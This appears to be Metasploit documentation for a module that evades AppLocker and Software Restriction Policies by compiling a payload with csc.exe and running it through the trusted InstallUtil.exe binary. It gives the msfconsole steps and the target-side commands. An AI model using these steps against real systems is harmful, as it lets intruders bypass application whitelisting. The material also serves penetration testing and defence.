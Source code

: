 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary InstallUtil.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block InstallUtill.exe or the "Microsoft.Net" directory.

## Options

- **FILENAME** - Filename for the evasive file (default: install_util.txt).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_install_util`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] install_util.txt stored at /root/.msf4/local/install_util.txt`
  7. `[*] Copy install_util.txt to the target`
  8. `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /out:installutil.exe install_util.txt` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  9. `[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U installutil.exe` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1118/
